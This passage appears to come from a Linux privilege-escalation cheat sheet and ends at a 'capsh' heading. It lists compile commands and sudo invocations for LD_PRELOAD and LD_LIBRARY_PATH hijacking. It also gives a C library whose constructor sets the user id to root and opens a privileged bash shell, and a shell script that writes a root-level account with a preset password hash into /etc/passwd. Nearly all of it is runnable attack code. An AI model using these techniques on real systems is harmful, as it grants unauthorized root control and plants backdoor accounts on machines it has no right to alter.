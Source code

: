 #### Compiling

```c
$ gcc -o <SHARED_OBJECT>.so <FILE>.c -shared -FPIC -nostartfiles 
```

#### Privilege Escalation

```c
$ sudo LD_PRELOAD=/PATH/TO/SHARED_OBJECT/<SHARED_OBJECT>.so <BINARY>
```

### LD\_LIBRARY\_PATH

#### Get Information about Libraries

```c
$ ldd /PATH/TO/BINARY/<BINARY>
```

#### shell.c

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

#### Compiling

```c
$ gcc -o <LIBRARY>.so.<NUMBER> -shared -fPIC <FILE>.c
```

#### Privilege Escalation

```c
$ sudo LD_LIBRARY_PATH=/PATH/TO/LIBRARY/<LIBRARY>.so.<NUMBER> <BINARY>
```

### Linux

#### adduser.sh

```c
#!/bin/bash
echo '<USERNAME>:BP9vDdYHNP.Mk:0:0:root:/root:/bin/bash' >> /etc/passwd
```

#### capsh
